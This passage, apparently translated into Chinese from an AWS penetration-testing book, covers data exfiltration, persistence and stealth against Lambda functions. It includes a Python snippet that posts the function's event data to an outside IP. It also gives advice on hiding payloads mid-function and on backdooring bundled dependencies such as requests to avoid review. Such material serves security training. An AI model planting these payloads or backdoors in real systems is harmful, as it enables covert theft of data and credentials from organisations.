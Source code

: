 接收包含 Lambda 函数的所有环境变量的 POST 请求

# 数据外泄

数据过滤的工作方式可能与我们之前升级特权的方式非常相似，因为我们很可能编辑现有函数并从中过滤数据。我们有很多不同的方法可以做到这一点，下面列出了其中一些方法：

*   修改现有函数，并通过`"event"`和`"context"`参数过滤它正在接收的数据
*   创建一个新函数和相关触发器，以响应 AWS 环境中的某些事件，例如在[第 11 章](11.html)中，*使用 Boto3 和 Pacu 来维护 AWS 持久性*，其中我们在每次创建新用户时都会过滤凭证
*   修改现有函数并将我们的 Exchange 有效载荷放在函数的中间位置，以释放在函数正常执行期间收集/修改的数据。

这里还有许多其他的攻击向量；你只需要有创造力。

如果我们只是想让有效负载过滤传递给`"event"`参数的值，我们可以使用之前有效负载的稍微修改版本：

```
try:
    from botocore.vendored import requests
    requests.post('http://1.1.1.1', json=event, timeout=0.01)
except:
    pass
```

确保知道为正在使用的 Lambda 函数指定的超时。您不希望您的 Exfilter 花费太长的时间，以致 Lambda 函数超时并同时失败，因此，当您通过 Lambda Exfilter 大量数据时，最好是确保超时时间已设置为很长的时间，或者自行修改以增加超时时间。问题是，目标公司的 Lambda 账单会上涨，因为他们的功能比正常情况下需要更长的时间才能完成，这会引起您的注意。

# 坚持不懈

我们不打算深入探讨持久性，因为我们在上一章中已经介绍了持久性，但是，与其他攻击 Lambda 的方法一样，可以使用新的 Lambda 函数或编辑现有的 Lambda 函数来建立持久性。坚持也可能意味着一些不同的事情。您是希望对 Lambda 函数的 bash shell 进行持久访问，还是希望对 AWS 环境进行持久访问，还是两者都要？这一切都是关于上下文以及什么最适合作为攻击者的情况。它甚至可能是有价值的后门多个 Lambda 功能，以防一个被抓住，并删除了一个后卫。

# 偷偷摸摸

这是你可以发挥创造力的地方。显然，添加到将数据发送到随机 IP 地址的函数中的随机代码对于熟悉该代码并正在重新查看该代码的任何人来说都是可疑的。在这种情况下，甚至可能没有防御者发现的妥协迹象，但开发人员碰巧注意到 Lambda 函数中的这段奇怪代码，并就此提出了一个问题，然后你就被抓住了。在整个函数的开头，恶意代码会更加明显，就像我们想要的那样，因此将负载嵌套在代码中的某个位置会有一点帮助。

将有效负载放置在不会改变输入功能（`lambda_handler()`中的任何内容，并且手动审查/发现的可能性极低的地方，怎么样？听起来好得难以置信，但事实并非如此！恶意黑客多年来一直在使用类似的技术，允许他们的软件/硬件后门在很长一段时间内保持活动状态，因此让我们将该技术应用于 Lambda，并保持警惕！

此技术涉及 Lambda 函数所依赖的后门依赖项。并不是所有您需要的库都包含在 Lambda 的库的基本集合中，正如我们在无法直接`import requests`时所看到的，因此开发人员被迫自己收集这些依赖项，并将它们与其余代码一起上传到 Lambda。我们将简短地看一个简单的例子。

假设我们无法导入带有`from botocore.vendored import requests`的`requests`库，我们需要在 Lambda 代码中包含该库。这可以通过将`requests`库与我们的基本 Lambda 代码放在一起，并将其作为`.zip`文件上传到 Lambda 来解决。

在本例中，我们有一个导入`requests`并向[发出请求的`lambda_function.py`文件 https://google.com/](https://google.com/) ，然后打印响应文本。`requests`库与它一起包含在整个库中，以便在下面的屏幕截图中第 2 行包含`import requests`代码。`requests`库还需要`chardet`、`urllib3`、`idna`和`certify`库，因此这些库包括：

![](img/0ed9d39c-4529-40a5-b318-752f416e69eb.png)
